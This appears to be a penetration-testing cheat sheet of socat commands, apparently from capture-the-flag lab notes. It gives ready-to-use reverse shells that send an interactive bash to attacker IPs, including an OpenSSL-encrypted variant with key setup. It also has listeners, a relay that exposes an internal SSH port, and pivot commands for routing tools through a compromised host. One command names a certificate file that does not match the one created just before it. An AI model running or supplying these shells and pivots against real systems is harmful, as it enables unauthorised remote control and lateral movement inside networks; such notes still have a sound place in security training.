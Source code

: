 ##### Socat reverse shell (Linux target)
`socat TCP:10.8.1.167:5555 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
-   **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
-   **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
-   **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
-   **setsid**, creates the process in a new session
-   **sane**, stabilises the terminal, attempting to "normalise" it.


##### Listen
`socat -dd TCP-L:5555 STDOUT`

##### Open a port to connect to another machine
```
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```

##### Create encrypted reverse shell
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 999 -out shell.crt  // Creating the key, creates "shell.crt, shell.key"
cat shell.key cert.crt > shell.pem  // Combine keys
socat OPENSSL-CONNECT:10.8.16.7:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane // Connect
socat -d -d OPENSSL-LISTEN:4444,cert=/home/edu/THM/EXPLOITS/shell.pem,verify=0// Listen
```

##### Open external port to access internal service
```
./socat_linux tcp-listen:9001,reuseaddr,fork tcp:127.0.0.1:22      // Opens port 9001, connecting to the internal SSH protocol
```

##### Socat port forward:
```
socat TCP-L:8001 TCP-L:8000,fork,reuseaddr & // Set up listener on attacking machine, :8001 to :8000 and :8000 to :8001
socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork & // Set up relay on compromised host
```

Send data (nmap, hydra, etc) through `127.0.0.1:8000`
Don't forget to close Socat after use


